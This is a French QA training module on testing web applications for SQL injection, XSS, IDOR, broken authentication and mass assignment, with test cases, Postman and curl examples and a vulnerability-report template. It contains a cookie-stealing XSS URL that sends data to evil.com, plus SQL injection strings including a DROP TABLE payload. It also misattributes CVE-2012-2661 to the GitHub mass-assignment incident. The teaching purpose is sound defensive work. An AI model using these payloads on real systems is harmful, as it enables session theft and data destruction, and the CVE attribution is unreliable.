

# Sécurité applicative pour QA

## Objectifs pédagogiques

À l'issue de ce module, vous serez capable de :

1. **Identifier** les vecteurs d'attaque applicatifs les plus courants (injection SQL, XSS, IDOR, broken auth, mass assignment) depuis la perspective d'un testeur QA
2. **Décrire** le mécanisme technique d'une attaque avant de concevoir le cas de test associé
3. **Construire** des cas de test orientés sécurité à partir des critères d'acceptation d'une User Story
4. **Exécuter** des tests de sécurité manuels avec les outils déjà dans votre boîte à outils QA (Postman, DevTools, curl)
5. **Signaler** une vulnérabilité de manière exploitable pour un développeur : vecteur, payload, impact, étapes de reproduction

---

## Mise en situation

En octobre 2021, l'équipe QA d'une fintech européenne termine sa recette sur un nouveau formulaire de recherche de transactions. Tous les tests fonctionnels passent. Deux semaines après la mise en production, un chercheur en sécurité leur envoie un rapport : le paramètre `account_id` dans l'URL `/api/transactions?account_id=1042` accepte n'importe quel identifiant sans vérifier si l'utilisateur connecté y a accès. Il a consulté les transactions de 3 000 clients en incrémentant simplement un entier.

Pas de XSS. Pas d'injection SQL. Pas de faille exotique. Une **IDOR** (Insecure Direct Object Reference) — la vulnérabilité la plus signalée sur HackerOne depuis 2019. Le test fonctionnel vérifiait que le formulaire *retournait des données*. Personne n'avait testé ce qui se passait si on demandait les données de *quelqu'un d'autre*.

C'est exactement le périmètre du QA en matière de sécurité : pas de pentest complet, pas d'exploit de kernel — mais tester les hypothèses d'autorisation, de validation et d'isolation que le code est supposé appliquer.

---

## Surface d'attaque d'une application web

Avant de tester, il faut savoir *quoi* exposer. La surface d'attaque d'une application web standard se décompose en vecteurs distincts, avec des niveaux d'exposition très différents.

| Vecteur | Ce qui est exposé | Impact potentiel |
|---|---|---|
| **Paramètres URL / query strings** | IDs, filtres, pagination, flags | IDOR, injection, manipulation de logique métier |
| **Corps de requête (JSON/form)** | Données utilisateur, fichiers uploadés | Injection, mass assignment, path traversal |
| **En-têtes HTTP** | Tokens, cookies, User-Agent, Referer | Vol de session, spoofing, cache poisoning |
| **Endpoints API non documentés** | Routes legacy, endpoints admin oubliés | Escalade de privilèges, fuite de données |
| **Messages d'erreur** | Stack traces, noms de tables, versions | Reconnaissance facilitée pour l'attaquant |
| **Mécanismes d'authentification** | Login, reset password, 2FA | Brute force, account takeover |
| **Contrôles d'autorisation** | Vérifications de rôle côté serveur | IDOR, privilege escalation |

🧠 La surface d'attaque ne se réduit pas aux champs de formulaire visibles. Chaque paramètre qu'un utilisateur peut *lire* peut potentiellement être *manipulé*. Les DevTools → onglet Network sont votre meilleur outil de cartographie avant de rédiger le moindre cas de test.

---

## Mécanisme des attaques applicatives courantes

Cette section couvre les cinq classes de vulnérabilités que vous rencontrerez le plus souvent en QA. Pour chacune, la logique est la même : comprendre comment l'attaquant pense, puis construire le cas de test qui détecte la faille avant lui.

### Injection SQL

**Comment ça marche côté attaquant**

Une requête SQL construite par concaténation de chaînes ressemble à ça dans le code :

```python
query = "SELECT * FROM users WHERE username = '" + user_input + "'"
```

Si `user_input` vaut `admin'--`, la requête devient :

```sql
SELECT * FROM users WHERE username = 'admin'--'
```

Le `--` commente le reste. La condition de mot de passe disparaît. L'attaquant est connecté en tant qu'admin sans connaître le mot de passe. Avec `' OR '1'='1`, il récupère tous les enregistrements. Avec `'; DROP TABLE users;--`, il efface la table.

**Ce que vous testez en tant que QA**

Vous ne lancez pas sqlmap en recette. Mais vous pouvez injecter manuellement des caractères de rupture de syntaxe SQL dans *tous* les champs de saisie et observer la réponse :

```
'
''
' OR '1'='1
1; SELECT 1
```

🔴 Si l'application retourne une erreur SQL (`syntax error near`, `ORA-`, `mysql_fetch_array()`), c'est une confirmation directe que l'entrée atteint la base sans filtrage. Notez le champ, le payload, et la réponse complète.

✅ **Comportement attendu** : un message d'erreur générique, sans stack trace, et aucune donnée supplémentaire retournée.

---

### Cross-Site Scripting (XSS)

**Comment ça marche côté attaquant**

Le XSS exploite le fait que du contenu utilisateur est inclus dans une page HTML sans être encodé. L'attaquant injecte du JavaScript que la victime exécute dans son propre navigateur.

Exemple réflexif :

```
https://app.example.com/search?q=<script>document.location='https://evil.com/steal?c='+document.cookie</script>
```

Si l'application affiche `q` sans encodage, le navigateur de toute personne qui clique sur ce lien exécute le script et envoie ses cookies vers un serveur tiers. En 2023, CVE-2023-3460 (plugin Ultimate Member pour WordPress) a permis une escalade de privilèges via XSS stocké — le payload était injecté dans un champ de profil, puis exécuté par un administrateur qui consultait ce profil.

**Payloads de test à utiliser systématiquement**

```html
<script>alert(1)</script>
">
javascript:alert(1)
```

Ces trois variantes couvrent trois vecteurs distincts : balise script directe, event handler sur attribut HTML, et protocol handler dans un champ `href` ou `src`. Un filtre qui bloque le premier ne bloque pas nécessairement les deux autres.

💡 Dans DevTools, vérifiez si votre payload apparaît tel quel dans le HTML source de la réponse (onglet Response). Si `<script>` n'est pas encodé en `&lt;script&gt;`, le XSS est probable même si la boîte de dialogue n'apparaît pas — une Content Security Policy peut bloquer l'exécution sans corriger la faille sous-jacente.

---

### IDOR — Insecure Direct Object Reference

C'est la vulnérabilité de l'incident d'ouverture. Elle est structurellement simple : l'application expose des identifiants d'objets (IDs, UUIDs, noms de fichier) dans des paramètres accessibles à l'utilisateur, et ne vérifie pas côté serveur que l'utilisateur *possède* cet objet.

**Exemple concret**

```
GET /api/invoices/10045 → retourne la facture de l'utilisateur connecté ✓
GET /api/invoices/10046 → retourne la facture d'un autre client ✗ (IDOR)
```

La subtilité : les IDs séquentiels (1, 2, 3…) sont triviaux à énumérer. Mais même les UUIDs peuvent être IDOR si l'application les expose dans d'autres endpoints ou dans des emails de notification.

**Cas de test QA — procédure en 5 étapes**

1. Créer deux comptes utilisateurs distincts (UserA et UserB)
2. Avec UserA, créer une ressource (commande, document, ticket) — noter l'ID retourné
3. Récupérer l'ID depuis la réponse API ou l'URL
4. S'authentifier en tant que UserB et tenter d'accéder à cette ressource avec l'ID de UserA
5. **Résultat attendu** : 403 Forbidden ou 404 — jamais les données de UserA

⚠️ L'IDOR est invisible si vous testez avec un seul compte. Utilisez deux onglets en navigation privée, ou mieux, Postman avec deux jeux de credentials distincts en variables d'environnement.

---

### Broken Authentication

Les attaques sur l'authentification n'ont pas besoin de casser du SHA-256. Elles exploitent des faiblesses de conception qui restent souvent invisibles dans les tests fonctionnels classiques :

- **Absence de rate limiting** : tester 10 000 mots de passe courants sur un formulaire de login sans blocage ni CAPTCHA
- **Tokens de reset prévisibles** : token basé sur timestamp Unix, lien qui n'expire pas, reset qui ne déconnecte pas les sessions actives
- **Session fixation** : si le session ID ne change pas après login, un attaquant peut pré-planter un ID connu et attendre que la victime s'authentifie
- **JWT mal configurés** : accepter `alg: none`, secret faible (`secret`, `password`), absence de vérification de l'expiration

Le diagramme suivant illustre l'exploitation d'un token de reset basé sur timestamp :



**Tests QA prioritaires sur l'authentification**

- Tenter un login avec 20 mauvais mots de passe : l'application bloque-t-elle après N tentatives ?
- Récupérer un lien de reset, attendre 25 minutes, le réutiliser : est-il expiré ?
- Après un changement de mot de passe, les tokens de session précédents sont-ils invalidés ?
- Modifier le payload d'un JWT (changer `"role": "user"` en `"role": "admin"` dans la partie base64) et renvoyer la requête : la signature est-elle vérifiée ?

---

### Mass Assignment

Moins connue, mais redoutable sur les API REST. L'application accepte un objet JSON et le mappe directement sur un objet de données sans filtrer les champs sensibles.

**Exemple**

```json
PATCH /api/users/me
{ "email": "nouveau@email.com" }
```

Que se passe-t-il si vous ajoutez `"role": "admin"`, `"is_verified": true` ou `"credit_balance": 99999` à ce corps de requête ?

En 2012, Egor Homakov a ajouté sa clé SSH publique au profil GitHub de l'organisation Ruby on Rails via mass assignment sur l'API Rails (CVE-2012-2661). C'est une vulnérabilité ancienne — mais elle resurface régulièrement dans les APIs modernes, précisément parce qu'elle est facile à introduire et rarement couverte par les tests fonctionnels.

🔴 Interceptez une requête PATCH ou PUT légitime avec Postman, ajoutez des champs issus de la documentation ou de la réponse GET correspondante, et observez si le serveur les accepte silencieusement. Vérifiez ensuite via un GET que les valeurs n'ont pas changé côté serveur.

---

## Construire des cas de test orientés sécurité

Un cas de test sécurité suit exactement la même structure GIVEN/WHEN/THEN que vos tests fonctionnels. La différence est dans le *scénario négatif* que vous construisez délibérément — vous testez ce que le système est censé *refuser*, pas seulement ce qu'il est censé *permettre*.

**Template de cas de test sécurité**

```
Test ID    : SEC-042
Feature    : Consultation de facture
Priorité   : Haute (données financières)
Type       : Autorisation / IDOR

GIVEN  : Deux comptes actifs — UserA (client_id=1001) et UserB (client_id=1002)
         UserA possède la facture invoice_id=5500
         UserB est authentifié avec un token valide

WHEN   : UserB envoie GET /api/invoices/5500 avec son propre token

THEN   : La réponse HTTP est 403 ou 404
         Le corps de réponse ne contient aucune donnée relative à UserA
         Aucune information de débogage n'est exposée (stack trace, user_id, query)

Notes  : Tester aussi avec invoice_id=5499 et 5501 (IDs adjacents)
         Tester sans token → 401 attendu
         Tester avec un token expiré → 401 attendu
```

🧠 Les tests de sécurité testent les *hypothèses implicites* du développeur : "l'utilisateur ne changera pas l'ID", "personne ne lira les en-têtes de réponse", "un utilisateur connecté ne peut accéder qu'à ses propres données". Votre travail est de rendre ces hypothèses explicites et de les vérifier une par une.

---

## Tests de sécurité avec vos outils QA existants

Vous n'avez pas besoin de Burp Suite pour démarrer. Vos outils quotidiens couvrent déjà une bonne partie du périmètre.

### Postman

Postman permet de manipuler précisément chaque composant d'une requête HTTP — indispensable pour les tests d'autorisation multi-comptes.

```javascript
// Collection : API Tests — Sécurité
// Variables d'environnement :
//   token_user_a : eyJhbGciOiJ...
//   token_user_b : eyJhbGciOiJ...
//   resource_id_a : 5500

// Onglet Tests de la requête (token = UserB, ID = ressource de UserA) :
pm.test("UserB ne peut pas accéder à la ressource de UserA", function () {
    pm.expect(pm.response.code).to.be.oneOf([403, 404]);
});

pm.test("Pas de données sensibles dans la réponse", function () {
    const body = pm.response.text();
    pm.expect(body).to.not.include("user_a@email.com");
});
```

### DevTools — Onglet Network

Pour cartographier la surface d'attaque avant de rédiger vos tests :

1. Ouvrir DevTools → Network, activer "Preserve log"
2. Naviguer dans toute la feature à tester
3. Filtrer par `Fetch/XHR`
4. Examiner chaque requête : URL complète, paramètres, corps JSON, en-têtes
5. Repérer les IDs exposés, les paramètres de type `role`, `admin`, `verified`, `limit` sans borne

💡 Dans Network, clic droit sur une requête → "Copy as cURL". Vous pouvez rejouer cette requête exacte dans le terminal, modifier les paramètres, et scripter vos tests sans quitter le navigateur.

### curl pour les tests rapides

```bash
# Test d'accès non authentifié
curl -i https://api.example.com/api/invoices/5500

# Test avec token d'un autre utilisateur
curl -i -H "Authorization: Bearer <TOKEN_USER_B>" \
  https://api.example.com/api/invoices/<RESOURCE_ID_USER_A>

# Test de manipulation de paramètre (mass assignment)
curl -i -X PATCH https://api.example.com/api/users/me \
  -H "Authorization: Bearer <TOKEN>" \
  -H "Content-Type: application/json" \
  -d '{"email":"test@test.com","role":"admin"}'

# Injection SQL basique dans un paramètre GET
curl -i "https://api.example.com/search?q=test'--"
```

⚠️ Vérifiez systématiquement les codes de réponse *et* le corps de réponse. Un 403 qui renvoie quand même des données dans le corps est une faille. Un 200 avec un corps vide peut masquer une logique d'autorisation incorrecte.

---

## Signaler une vulnérabilité de manière exploitable

Le rapport de bug sécurité le plus utile est celui qui permet au développeur de *reproduire* et de *comprendre l'impact* immédiatement. Un rapport vague ("le formulaire de login semble vulnérable") coûte deux heures de va-et-vient avant même le début du correctif.

**Structure d'un rapport de vulnérabilité QA**

```markdown
## [SEC] IDOR — Accès aux factures d'autres clients

**Sévérité** : Haute
**Composant** : API /api/invoices/{id}
**Environnement** : Staging — v2.4.1

### Description
Un utilisateur authentifié peut accéder aux factures d'autres clients
en modifiant l'identifiant de facture dans l'URL.

### Étapes de reproduction
1. Se connecter avec le compte test_user_b@qa.com
2. Envoyer la requête suivante (token de test_user_b) :
   GET /api/invoices/5500
   Authorization: Bearer eyJhbGci... [token UserB complet en annexe]
3. La réponse retourne les données de la facture appartenant à test_user_a@qa.com

### Résultat observé
HTTP 200 avec le corps :
{ "invoice_id": 5500, "client": "UserA Corp", "amount": 12400.00, ... }

### Résultat attendu
HTTP 403 Forbidden ou HTTP 404

### Impact
Tout utilisateur authentifié peut énumérer les factures de l'ensemble
des clients en itérant sur l'identifiant. L'application contient
actuellement ~50 000 factures actives.

### Preuve (capture / curl)
curl -i -H "Authorization: Bearer <TOKEN_USER_B>" \
  https://staging.example.com/api/invoices/5500
```

Sur la sévérité : résistez à la tentation de tout classifier en "Critique". Un rapport mal priorisé perd sa crédibilité. Grille simple — **Critique** : données de tous les utilisateurs exposées, exécution de code à distance. **Haute** : accès aux données d'autres utilisateurs, bypass d'authentification. **Moyenne** : fuite d'informations limitée, déni de service partiel. **Faible** : informations de version exposées, headers de sécurité manquants.

---

## Cas réel en entreprise

**Broken Object Level Authorization sur une API de gestion de flotte — secteur logistique, 2022**

Une startup proposait une API REST pour gérer des flottes de véhicules. Chaque entreprise cliente avait ses propres véhicules, chauffeurs et trajets. L'équipe QA testait principalement les flux métier : ajout de véhicule, assignation de chauffeur, export de rapport. Tous les tests passaient.

Après six mois en production, un audit de sécurité détecte que l'endpoint `GET /api/vehicles/<vehicle_id>` retourne les données de n'importe quel véhicule de n'importe quel client. Le `vehicle_id` est un UUID v4 — difficile à deviner aléatoirement en théorie. Mais l'application exposait ces UUIDs dans des webhooks envoyés à des systèmes tiers, dans des exports CSV, et dans des URLs de partage de rapports. En pratique, un client curieux pouvait collecter les IDs de véhicules concurrents via ses propres intégrations, sans aucune technique offensive.

**Ce qui a manqué dans les tests QA :**
- Pas de test avec deux tenants distincts — les tests utilisaient tous le même compte
- La logique d'isolation inter-clients n'était jamais exercée
- La sécurité reposait implicitement sur le fait que "l'UUID est imprévisible" — une hypothèse jamais testée

**Ce qui a changé après l'incident :**
- Ajout d'un "compte secondaire" obligatoire dans tous les environnements de test
- Critère d'acceptation systématique sur toute US exposant des IDs : *"L'accès depuis un tenant différent retourne 403"*
- Revue complète des endpoints existants avec une matrice tenant/resource

Le coût : trois semaines de refactoring de la couche d'autorisation, notification aux clients, audit des logs pour déterminer si des accès croisés avaient eu lieu.

---

## Erreurs fréquentes

**Tester uniquement les flux "happy path" avec un seul compte**

Conséquence directe : toute la logique d'autorisation reste non testée. Les bugs IDOR et d'isolation multi-tenant passent en production sans être vus. La correction est structurelle : pour chaque US qui crée ou expose des ressources, prévoir deux comptes dans l'environnement de test et vérifier l'isolation explicitement dans les critères d'acceptation.

**Considérer les messages d'erreur détaillés comme "non bloquants"**

Une stack trace qui expose `org.hibernate.QueryException` ou un chemin complet `/home/ubuntu/app/models/user.rb:42` donne à un attaquant la technologie, la version, et parfois les noms de tables. C'est de la reconnaissance gratuite. Tout message d'erreur visible par l'utilisateur final doit être générique — le détail va dans les logs serveur, pas dans la réponse HTTP.

**Marquer "OK" un champ qui rejette `<script>alert(1)</script>` sans tester les variantes**

Les filtres naïfs bloquent le payload textuel mais pas ses variantes : ``, `<svg onload=alert(1)>`, encodages Unicode. Utiliser au moins trois payloads de natures différentes. Si le champ encode correctement en `&lt;` / `&gt;`, le test est probablement solide.

**Négliger les en-têtes de réponse HTTP**

L'absence de `Content-Security-Policy`, `X-Frame-Options` ou `Strict-Transport-Security` n'a aucun impact sur les tests fonctionnels, mais compte dans toute évaluation de sécurité. Vérification rapide :

```bash
curl -sI <URL> | grep -iE "content-security-policy|x-frame-options|strict-transport-security|x-content-type-options"
```

Absence de résultat = headers manquants. À inclure dans le smoke test de release.

---

## Résumé

La sécurité applicative en QA ne requiert ni pentest ni connaissance en exploitation avancée. Elle requiert de tester les hypothèses implicites que le code fait sur ses entrées et ses utilisateurs. Les cinq classes les plus rentables à couvrir : injection SQL (entrées non filtrées atteignant la base), XSS (contenu utilisateur affiché sans encodage), IDOR (accès à des ressources sans vérification de propriété), broken authentication (rate limiting, expiration de tokens, invalidation de sessions), et mass assignment (champs sensibles acceptés sans liste blanche).

Vos outils quotidiens — Postman, DevTools, curl — suffisent pour couvrir l'essentiel. L'investissement principal est dans la *stratégie de test* : créer des comptes distincts, tester les scénarios négatifs d'autorisation, inclure des critères d'acceptation sécurité dans chaque User Story qui expose des données. Ce qui dépasse ce périmètre — vulnérabilités de logique métier complexe, failles dans les dépendances, configuration d'infrastructure — relève du pentest et sera abordé séparément.

---

<!-- snippet
id: qa_idor_postman_test
type: tip
tech: postman
level: intermediate
importance: high
format: knowledge
tags: idor,autorisation,api,postman,securite
title: Tester l'IDOR avec deux tokens dans Postman
content: Stocker deux tokens en variables d'environnement (token_user_a, token_user_b). Créer une ressource avec UserA, récupérer son ID depuis la réponse, puis rejouer la requête GET avec le token de UserB. Ajouter dans l'onglet Tests : pm.expect(pm.response.code).to.be.oneOf([403, 404]). Vérifier aussi que le corps ne contient aucune donnée de UserA.
description: Pattern de test IDOR minimal dans Postman : deux comptes, une ressource, vérification du code de réponse et du corps avec un test script.
-->

<!-- snippet
id: qa_sqli_detection_payload
type: concept
tech: http
level: intermediate
importance: high
format: knowledge
tags: injection-sql,payload,detection,test-manuel
title: Détection d'injection SQL par caractère de rupture
content: Injecter une apostrophe simple ' dans tout champ de saisie ou paramètre URL. Si la réponse contient "syntax error", "ORA-", "mysql_fetch" ou une stack trace SQL, l'entrée atteint la base sans échappement. Tester aussi ' OR '1'='1 sur les formulaires de login — résultat attendu : erreur générique, jamais une connexion réussie.
description: Une apostrophe simple est le payload de détection SQL le plus rapide — une erreur SQL dans la réponse confirme l'absence de paramétrage des requêtes.
-->

<!-- snippet
id: qa_xss_payload_variants
type: tip
tech: html
level: intermediate
importance: high
format: knowledge
tags: xss,payload,encodage,test-manuel
title: Trois payloads XSS de natures différentes à toujours tester
content: "Tester ces trois variantes dans chaque champ affiché à d'autres utilisateurs : (1) <script>alert(1)</script> — balise script directe. (2)  — event handler sur attribut HTML. (3) javascript:alert(1) — dans un champ href ou src. Si le HTML source encode en &lt; et &gt;, l'encodage fonctionne. Un WAF peut bloquer l'exécution sans corriger la faille."
description: Trois vecteurs XSS couvrant script tag, event handler et protocol handler — tester les trois évite les faux négatifs sur filtres partiels.
-->

<!-- snippet
id: qa_headers_securite_curl
type: command
tech: curl
level: intermediate
importance: medium
format: knowledge
tags: headers,securite,csp,hsts,curl
title: Vérifier les headers de sécurité HTTP avec curl
command: curl -sI <URL> | grep -iE "content-security-policy|x-frame-options|strict-transport-security|x-content-type-options"
example: curl -sI https://app.example.com | grep -iE "content-security-policy|x-frame-options|strict-transport-security|x-content-type-options"
description: Retourne uniquement les headers de sécurité. Absence de résultat = headers manquants. À inclure dans le smoke test de release.
-->

<!-- snippet
id: qa_idor_test_structure
type: concept
tech: http
level: intermediate
importance: high
format: knowledge
tags: idor,autorisation,cas-de-test,multi-compte
title: Structure d'un cas de test IDOR en cinq étapes
content: "1. Créer deux comptes : UserA et UserB. 2. Avec UserA, créer une ressource (commande, facture, ticket) — noter l'ID retourné. 3. S'authentifier en tant que UserB. 4. Tenter GET /api/resource/<id_de_A> avec le token de UserB. 5. Résultat attendu : 403 ou 404, corps vide. Résultat qui confirme la faille : 200 avec les données de UserA."
description: Pattern minimal et reproductible pour détecter une IDOR — impossible à détecter avec un seul compte de test.
-->

<!-- snippet
id: qa_mass_assignment_test
type: tip
tech: http
level: intermediate
importance: medium
format: knowledge
tags: mass-assignment,api,json,patch,privilege-escalation
title: Tester le mass assignment sur un endpoint PATCH
content: "Intercepter une requête PATCH ou PUT légitime. Ajouter dans le corps JSON des champs sensibles observés dans la réponse GET correspondante : \"role\": \"admin\", \"is_verified\": true, \"credit_balance\": 9999. Vérifier via un GET suivant si ces valeurs ont été modifiées côté serveur. Si oui, le serveur accepte des champs qu'il devrait ignorer."
description: Ajouter des champs sensibles à une requête PATCH légitime et vérifier via GET si le serveur les a appliqués — révèle une absence de liste blanche sur les champs acceptés.
-->

<!-- snippet
id: qa_curl_idor_crossaccount
type: command
tech: curl
level: intermediate
importance: high
